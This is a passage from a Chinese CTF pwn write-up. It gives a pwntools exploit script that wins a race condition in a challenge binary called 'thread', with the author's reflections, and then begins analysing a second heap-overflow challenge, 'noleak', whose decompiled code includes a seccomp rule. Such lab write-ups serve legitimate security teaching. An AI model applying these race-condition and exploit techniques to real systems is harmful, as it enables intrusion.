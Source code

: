 ## 利用

写脚本，买一次卖两次，之后换取flag

## exp

存在随机性，多运行几次。

```python
from pwn import * 

context.log_level = 'debug'
sh = process('./thread')
#sh = remote('119.45.24.140', 9373)

sh.sendline('1')
sleep(0.05)
sh.sendline('10')
sleep(0.05)
sh.sendline('2')
#sleep(0.05)
sh.sendline('2')
#sleep(0.05)
sh.sendline('4')


sh.interactive()

```

## 总结

拿到题目的时候分析，没有全面的思考，一直在整数溢出的地方尝试，发现不行，没有注意到sale函数的sleep(1)的作用，做题思路一定要发散，不能墨守成规。注意审题！

## 出题思路

1. 线程，条件竞争
2. 人为制造线程临界资源问题。

# PWN -> noleak (堆溢出、close(1)、orw)

## 题目分析

保护全开，环境2.31，题目给了libc和程序，但是发现运行程序没有输出，ida查看：
init函数：
```c
__int64 sub_14A8()
{
  unsigned int v0; // eax
  int v1; // eax
  __int64 v3; // [rsp+8h] [rbp-8h]

  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  v0 = time(0LL);
  srand(v0);
  v1 = rand();
  malloc(10 * (v1 % 16) + 16);
  v3 = seccomp_init(0x7FFF0000LL);
  seccomp_rule_add(v3, 0LL, 59LL, 0LL);
  return seccomp_load(v3);
```